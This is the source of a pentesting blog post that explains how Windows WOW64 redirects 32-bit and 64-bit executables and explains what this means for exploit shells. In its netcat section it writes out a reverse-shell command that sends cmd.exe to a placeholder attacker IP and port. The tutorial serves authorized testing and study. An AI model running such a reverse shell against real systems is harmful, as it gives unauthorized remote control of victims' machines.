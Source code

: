 ```yaml
---
layout: post
published: true
featured: true
title: WOW64 for Pentesters
headline: 'WOW64'
description: WOW64 for Pentesters
modified: '2019-03-01'
categories:
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative pentest oscp
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

## Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

## File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

```powershell

32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
32-bit app > 64-bit versions > \sysnative

```

A 64-bit application can also access 32-bit versions directly using \syswow64.

```powershell

64-bit app > 32-bit versions > \syswow64

```

## Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

```powershell

  nc.exe -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT

```
<p> </p>

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

```powershell

  %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe

```
<p> </p>

## Further Reading

- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/wow64-implementation-details" target="_blank">WOW64 Implementation</a>
- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/running-32-bit-applications" target="_blank">Running 32-Bit Applications</a>
- <a href="https://docs.microsoft.com/en-us/windows/win32/winprog64/accessing-an-alternate-registry-view" target="_blank">Accessing Alternate Registry Views</a>

<p>&nbsp;</p>  
<p>&nbsp;</p>  
